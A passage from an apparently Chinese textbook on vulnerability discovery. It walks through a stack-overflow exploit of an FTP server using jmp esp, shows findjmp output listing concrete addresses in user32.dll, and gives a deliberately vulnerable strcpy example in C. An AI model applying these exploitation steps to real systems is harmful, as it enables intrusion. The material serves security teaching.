这也就是为什么前面我们发现图 2.30 中 esp 寄存器指向的内存中存放着过长的用户数据，因为用户数据正好就是保存在堆栈中的。并且，当程序调用任何一个函数的时候，CPU 都会主动将函数的返回地址首先保存在堆栈中，等到函数执行完毕，再利用 esp 寄存器从堆栈中取出接着往下执行。这个时候，用户数据也是被保存在堆栈中的，如果用户数据过长，在程序将它保存进入堆栈的时候就会覆盖了本已经保存在堆栈中的函数返回地址，这个时候，CPU 是不知道这一切的，它在函数执行完毕准备通过 esp 寄存器取出函数的返回地址时，就会将过长的用户数据当作返回地址而准备接着执行。此时，如果这个用户数据所代表的内存地址刚好是指向 ShellCode 所在的地址，那么程序就会直接去运行 ShellCode 代码了。但是，由于程序每运行一次，堆栈的内存地址都会发生变化，ShellCode 代码就会被保存在不同的内存地址上，我们无法得知 ShellCode 代码准确的内存地址。于是，我们想到了利用 ESP 寄存器本身的作用，因为 ESP 寄存器永远都代表着堆栈地址所在位置，也就是 ShellCode 代码所在的内存地址。于是，我们不再将函数的返回地址覆盖为 ShellCode 代码所在的内存地址，而是覆盖为一个 `jmp esp` 指令的地址，这个指令的地址在系统中是比较固定的，因为我们获取的是操作系统自己提供的 `jmp esp` 指令地址。这样一来，我们就不必担心每一次 ShellCode 代码的内存地址会发生变化而导致漏洞无法利用成功，溢出一旦发生，函数返回后就会先执行 `jmp esp` 指令，控制 CPU 跳转到 ESP 寄存器指向的内存地址上去执行。而 ESP 寄存器又指向我们的 ShellCode 代码，于是，ShellCode 代码被顺利执行，漏洞被利用成功！用张图来表示这个利用过程，如图 2.33 所示。



图 2.33 溢出漏洞利用的原理示意

`jmp esp` 指令所在内存地址的获取可以利用一个名叫“findjmp.exe”的小程序，该程序需要在命令行模式下使用。打开系统自带的命令行窗口，切换到 `findjmp.exe` 程序所在的目录下，再输入 `findjmp.exe user32.dll esp` 命令回车，如图 2.34 所示。

```
E:\nohack\第2章>findjmp user32.dll esp

Findjmp, Feye, [25-taB]
Findjmp2, Hat-Squad
Scanning user32.dll for code useable with the esp register
0x77D27447    jmp esp
0x77D5FEC8    jmp esp
0x77D7A0ED    call esp
0x77D7BEBF    call esp
0x77D7C5FD    jmp esp
0x77D7C63B    jmp esp
0x77D7C617    jmp esp
0x77D824C0    jmp esp
0x77D93938    jmp esp
```

图 2.34 利用 findjmp 程序查找包含 `jmp esp` 指令的内存地址

程序马上就会找出系统当中 `user32.dll` 系统文件中能够跳转到 ESP 寄存器指向内存地址的所有指令地址。我们看到 `0x77D27447` 这个内存地址上正好有一个“`jmp esp`”指令，为此，我们就选用它来覆盖 GoodFTP Server 程序的返回地址。

好了，至此一切利用工作准备完毕，保存我们 Python 代码为 `go.py` 文件。运行 GoodFTP Server 程序并且使其正常工作起来，在系统命令行窗口下，输入 `go.py` 文件所在的完整路径回车。这一次，GoodFTP Server 程序不再出现图 2.20 中的警告提示，而是弹出了一个写有“错误”字眼的对话框，我们的 ShellCode 代码被成功执行了！如图 2.35 所示。

### 2.5 思路最重要

经过一番努力，我们终于亲自体验了一把挖掘软件安全漏洞的全过程。这个过程虽然有些辛苦，却并不像想象中那样遥不可及。软件安全漏洞的挖掘是一个充满技术和想象的过程，有时候一个瞬间的思路就能帮助我们发现软件中意想不到的安全漏洞。

也许你会问：“我不会编程能不能发现软件安全漏洞呢？”答案是“能！”。很多软件的安全漏洞其实可以借助自动化的安全测试工具去挖掘，就像上面我们用的 FTPFuzz 程序，正是它帮助我们发现了 GoodFTP Server 程序的一个缓冲区溢出漏洞。“不会编程”可能会影响你发现漏洞后的利用，但是，有一些漏洞的利用有着固定的模式，你借助别人已经写好的代码稍作修改就能够达到同样利用的目的。



图 2.35 成功执行 ShellCode 后的效果

## 第2章 挖出第一个属于你的安全漏洞

软件安全漏洞的几率。自动化测试工具总有一些不尽人意的地方，而如果你懂得编程，你就可以根据自己的需要来有针对性地进行安全测试，挖掘出更多的安全漏洞。

谈完了技术方面的要求，我想告诉每一位正在读这本书的人，漏洞挖掘中思路是决定你能否发现安全漏洞的第二个重要因素。有时候程序发生的错误可能并不是一个缓冲区溢出漏洞，但是，它同样可以被利用来执行任意的代码，那么它也就是一个安全漏洞。

还有，不要将思路总是局限于针对某一种安全漏洞的挖掘与测试，而忽略其它类型的安全漏洞。

挖掘安全漏洞的时候，一定要全面地看待你所要研究的目标软件，不能单单从一个方面入手去进行安全测试。更不要不切实际地去进行安全测试，例如在测试 FTP 服务程序的时候，它主要是处理 FTP 命令的，那么你就需要从 FTP 命令入手去测试，不要用其它的命令来做测试，那样的结果就是浪费时间。

本书在后面的章节中，将从简单到复杂，从工具使用到自己编程测试，逐步分层次递进，读者可以根据自己的技术水平来进行针对性的学习。记住，软件漏洞并不难挖掘，不要被迷信吓倒！

### 思考题：

- 1. 本章为大家演示的漏洞挖掘实例中，我们的漏洞挖掘思想是什么？
- 2. FTPFuzz 程序是不是可以挖掘所有软件的安全漏洞？

### 答案：

- 1. 本章案例中，由于被挖掘漏洞的软件是一个 FTP 服务程序，该程序以处理 FTP 协议数据为主要工作，所以，我们必须从 FTP 协议入手来进行漏洞挖掘。同时，由于 FTP 协议中的数据部分是可以由用户控制的，所以，我们通过修改 FTP 协议中数据部分的长度来测试 FTP 服务程序是不是存在缓冲区溢出漏洞。
- 2. FTPFuzz 程序是专门针对 FTP 服务程序类型的软件进行安全漏洞挖掘的工具软件，它不可能适合所有类型的软件，更不可能挖掘所有类型的软件安全漏洞。

## 第3章 软件漏洞的基本知识

本章是对软件安全漏洞类型和概念的总体介绍，目的是为了让读者对软件安全漏洞有一个明确的了解。这里所罗列的软件安全漏洞类型在后面的具体学习中都会涉及到。如果你对软件安全漏洞的概念已经有所了解，那么你可以越过本章的学习。不过，我们还是建议普通读者能够好好学习本章的内容，因为这是在为后面的漏洞挖掘实战做准备。

### 3.1 软件漏洞的定义

软件漏洞一个基本的定义就是**能够引发安全事件的软件缺陷**。由于计算机软件都是由人开发的，人对软件开发的认知程度和技术水平参差不齐，所以开发出来的软件难免会存在各种各样的问题。其中，有一部分的软件问题在某些特殊情况下，可以被人恶意利用来实现某些攻击行为，这些软件问题我们就把它们称之为“软件安全漏洞”，即软件漏洞。

软件安全漏洞是计算机安全界内一个永恒的话题，每一年，甚至是每一天都会有人公布某某软件又出现某某安全漏洞。拿微软来说，如果你使用的是 Windows 系统，你会发现几乎每个月都会有大量的系统补丁包需要更新，其实，这些补丁包程序修补的正是微软软件产品中的各种安全漏洞。



图 3.1 著名的漏洞信息邮件列表网站

http://marc.info/?l=bugtraq

对于一般人而言，他们不会关心软件安全漏洞的信息，他们只需要及时升级自己所使用的软件产品就可以修补漏洞。但是，对于研究软件安全漏洞的我们来说，应当养成及时了解软件安全漏洞信息的好习惯。因为这个好习惯既可以帮助我们学习到新型的软件安全漏洞类型，也可以帮助我们了解软件安全漏洞的发展趋势以及技术趋势，有利于我们随时更新自己所学习到的安全知识和安全技术。

要想了解软件安全漏洞的信息，最好的方法是访问国外一些著名的安全信息邮件列表，例如 http://marc.info/?l=bugtraq，如图 3.1 所示。

在这些邮件列表中，每天都有来自全世界各地的安全漏洞信息，这些信息都是由全世界各地的安全研究人员公布出来的。这其中不乏很多最新发现的软件安全漏洞，我们可以根据这些信息再进行深入的研究，或者可以将自己发现的安全漏洞也公布到这些邮件列表中，供全世界的安全爱好者一起研究学习。

### 3.2 0day 的重要性

2006 年，在全世界最大的商品交易网站 ebay 上出现了一则令人惊讶的商品出售信息：本人欲出售微软 Office Word 软件最新未公布漏洞，漏洞出售价格 10 万元人民币。

一般人也许并不理解，不就是一个软件的安全漏洞嘛，至于卖出 10 万元人民币的价格吗？如果我问你，软件漏洞能用来做什么？你一定会说，用来攻击他人计算机系统。那么，攻击他人计算机系统的目的是什么？你会说，窃取机密信息或者故意破坏他人数据。

请注意，此时你已经说到了一个软件安全漏洞的价值所在。通过软件的安全漏洞，恶意攻击者能够获取到他人计算机系统中的机密信息，这些信息包括个人隐私、商业数据、国家秘密等，这些机密信息一旦被人获取，说小一些，可能会用来敲诈个人钱财，制造商业竞争；说大一些，如果机密信息落入敌对国家人员手里，他们就可以制造国际争端，激发国际矛盾，甚至引发国家战争。

这些都不是耸人听闻的事情，如果你常常关注新闻节目，你就会发现很多计算机犯罪事件都与软件安全漏洞有关。就拿最近的一个新闻事件——谷歌被人盗取部分商业代码来说，这个事件就是有人发现了 Internet Explorer 浏览器的一个安全漏洞，借助这个漏洞成功渗透进入谷歌公司的计算机系统内部，窃取了谷歌公司的内部商业程序代码。

现在，你明白了一个软件的安全漏洞能够引发多么可怕的结果，而这个结果正好就是某些带有特殊目的的人们所需要的。于是，软件的安全漏洞就有了价值，花费 10 万元人民币换来获得他国军事机密信息，这是多少敌对国家分子梦寐以求的事情啊。

不过，要是软件漏洞被公布了，软件开发商就会迅速修补漏洞，这样一来，也许还没等漏洞被利用，漏洞就已经被修补了。所以，软件安全漏洞要想获得高的价值，首先第一个要求就是从未被公布过，而符合这类要求的安全漏洞一般被称之为“0day”。

0day 漏洞的危害性是不言而喻的，大多数情况下，0day 漏洞是不会被公布的，它一般掌握在少数安全研究人员手里。但是，有时某些 0day 漏洞会被泄露出来，此刻软件开发商就需要马上针对漏洞给出修补方案，以减少用户损失。

### 3.3 软件漏洞的分类

#### 3.3.1 缓冲区溢出漏洞

缓冲区溢出漏洞，是一种在软件中最易发生的漏洞。它发生的原理是，由于软件在处理用户数据时使用了不限定边界的拷贝，导致程序内部一些关键的数据被覆盖，引发安全问题；严重的缓冲区溢出漏洞会使得程序被利用进行木马或病毒安装。

“缓冲区”指的是操作系统中用来保存临时数据的空间，一般分为栈和堆两种缓冲区类型。缓冲区溢出漏洞是一种非常普遍、非常危险的漏洞，在各种操作系统、应用软件，甚至是 Web 应用程序中广泛存在。

利用缓冲区溢出攻击，可以导致程序运行失败、系统死机、重新启动等后果。更为严重的是，可以利用它执行非授权指令，甚至可以取得系统特权，进而进行各种非法操作。

缓冲区溢出攻击有多种英文名称：buffer overflow, buffer overrun, smash the stack, trash the stack, scribble the stack, mangle the stack, memory leak, overrun screw；它们指的都是同一种攻击手段。第一个缓冲区溢出攻击——Morris 蠕虫，发生在十年前，它曾造成了全世界 6000 多台网络服务器瘫痪。

在当前网络与操作系统安全中，50% 以上的攻击都是来自于缓冲区溢出漏洞，其中最著名的例子是 1988 年利用 fingerd 漏洞的蠕虫。

> **小知识**：fingerd 漏洞是 Unix 系统下曾经出现过的一个非常严重的缓冲区溢出漏洞。该漏洞可以允许恶意攻击者在远程渗透进入 Unix 系统，而 fingerd 蠕虫就是借助此漏洞来实现网上传播的。

而缓冲区溢出中，最为危险的是栈溢出，因为入侵者可以利用栈溢出，在函数返回时改变返回程序的地址，让其跳转到任意地址，带来的危害一种是程序崩溃导致拒绝服务；另外一种就是跳转并且执行一段恶意代码，比如得到 shell，然后为所欲为。

这里要澄清一个概念，很多人把缓冲区溢出称之为堆栈溢出漏洞，这其实是错误的，堆溢出和栈溢出是两个不同的概念，它们只是都属于缓冲区溢出而已。

我们平时听说的缓冲区溢出大部分都属于栈溢出。由于程序在实现过程中，往往会自己直接定义一些内存空间来负责接收或者存储数据，这些被直接定义的空间大小是有限的，当程序将过多的数据不经检查而直接放入这些空间中时，就会发生栈溢出。

栈溢出最为直接的危害是，这些被过量放进内存空间的数据会将函数的返回地址覆盖。“返回地址”的概念来自于 CPU 处理指令的结构设计。如果程序现在准备调用一个函数时，CPU 首先会将执行完这个函数后将要执行的指令地址存储到栈空间中，然后 CPU 开始执行函数，执行完后，CPU 取出前面保存的指令地址，然后接着执行。

> **注意**：我们发现这个“返回地址”是保存在栈空间中的，而程序一般定义的空间也是在栈中进行分配的，这就给了我们覆盖这个“返回地址”的机会。

栈是一个先进后出的空间，你可以想象一下，往一个木桶里放一堆苹果，别人最先取出来的苹果一定是你最后放进去的那个苹果，因为第一个被你放进木桶的苹果已经被后面装进的苹果压在最底下了。而对于堆来讲，则与栈恰恰相反，它是一个先进先出的空间，就像你开车过高速公路上的收费站，谁在队伍前面谁就先过收费站。而缓冲区溢出就是把这些空间给装满了不说，还要往里装，最后的结果就是，你放入木桶的苹果会掉出来，而收费站的拦车杆会被挤断。



图 3.2 栈溢出时内存中数据的结构

但对于一个软件来讲，危害可能不仅仅如此，这里我们用一张图来表示栈溢出发生的时候，软件运行时内存中的情况，如图 3.2 所示。

图 3.2 左边是一个软件正常时候的内存分布，我们看到在内存的高端部分是函数从被调用函数返回时需要的地址，而内存低端部分则是被调用函数的两个要使用的缓冲空间：buf1，buf2。这里我们作一个解释，假设这里被调用的函数是 strcpy，strcpy 函数是一个字符串拷贝函数，这个函数有两个参数，其中 buf2 代表来源字符串，buf1 代表目的空间，strcpy 函数的目的就是要把 buf2 中的字符串全部复制进 buf1 代表的空间。就像前面举过的例子，buf2 就是我们要放的苹果，buf1 就是木桶。现在我们如果将 buf2，即来源字符串弄得很长，这里假设是上万个字母“A”，这个时候再去执行 strcpy 函数，内存中的分配空间就会出现右侧图显示的样子。我们看到 buf1 中充满了字符 41，“41”是 A 的 ASCII 码，不但如此，紧接着 buf1 的内存空间也全部被覆盖成了 41，我们注意最为关键的一个地方就是“return address”这块内存也全部成了 41。那么程序在执行完 strcpy 函数要返回的时候，程序获得返回地址竟是 41414141，程序不管这个地址对不对，就直接返回了，结果程序会因为这个地址非法而出错。

我们现在注意一下，因为程序的返回地址被覆盖，所以程序出错；而这个覆盖值是我们故意输入的过长 A 字符串，也就是说我们完全能够控制把哪些数值覆盖到程序的返回地址上。如果我们将一段恶意代码或者要达到某个目的的代码预先放入内存中某个地址，再将这个地址覆盖到程序的返回地址上，这样程序一旦溢出后返回，就会自动跳到我们的代码上去，并且会执行我们的代码；而且这一切都是由程序“很正常”的执行完成的，我们就这样悄无声地控制软件的执行流程。



图 3.3 栈溢出发生时 ESP 寄存器指向的位置



图 3.4 栈溢出演示

恶意攻击者为了能够利用栈溢出来控制软件的执行流程，一般会将溢出地址覆盖为 jmp esp 指令或者 call esp 指令所在的地址。这是因为，对于程序来说，当程序发生栈缓冲区溢出时，往往是程序中的某一个函数返回地址被过长的数据覆盖。此时，esp 寄存器指向的地址是过长数据的后半部分。我们用一张图来表示这个过程，如图 3.3 所示。

如果此时，esp 指向的这段过长数据是一段恶意代码，那么当我们把函数的返回地址覆盖成为一个 jmp esp 指令或者 call esp 指令所在的地址时，溢出发生后，函数一返回将会跳转到 jmp esp 指令或者 call esp 指令所在地址上，CPU 执行 jmp esp 指令或者 call esp 指令后，马上跳到 esp 寄存器指向的过长数据上，从而执行了恶意代码。esp 指向的这段恶意代码我们称之为“ShellCode”。

> （关于 ShellCode 的概念和获得，请参考本书最后部分附带的参考资料“利用 Microsoft Visual C++ 6.0 制造 ShellCode”。）

虽然说，我们知道缓冲区溢出漏洞对软件的安全危害极大，但是，究竟恶意攻击者是怎样利用缓冲区溢出漏洞来达到攻击用户的目的呢？为了便于大家理解，我们现在给大家演示一个具体的例子，从这个例子中来看一看栈溢出漏洞的发生和被利用的全过程。

```c
#include <stdio.h>
#include <string.h>
char name[] = "aiwuyan";

void cc(char *a) // 定义了一个名为 cc 的函数，该函数的参数为一个字符串变量
{
    char output[8];      // 注意这里变量存放数据的空间大小为 8 个字节
    strcpy(output, a);   // 将参数 a 的数据通过 strcpy 函数拷贝进入 output 空间中
    printf("%s\n", output); // 打印 output 中存放的数据
}

int main() {
    cc(name);   // 调用 cc 函数
    return 0;
}
```

上面这段 C 代码是一个存在栈溢出的代码，我们可以利用 Microsoft Visual C++ 6.0 来编译执行这段代码，如图 3.4 所示。

代码中我们使用 strcpy 函数来将 name 字符串拷贝到 output 字符串所在内存地址中，这里请注意 output 指向的内存大小只有 8 个字节大小。在没有发生栈溢出漏洞的时候，代码最终的执行结果是打印出“aiwuyan”这段字符串。

现在，我们让 name 成为一段大于 8 个字节的字符串，将前面的代码修改为：

```c
#include <stdio.h>
#include <string.h>
char name[] = "abcdefghijklmnopqrstuvwxyz"; // 注意：name 变量长度远大于 8 字节

void cc(char *a) {
    char output[8];
    strcpy(output, a);
    printf("%s\n", output);
}

int main() {
    cc(name);
    return 0;
}
```

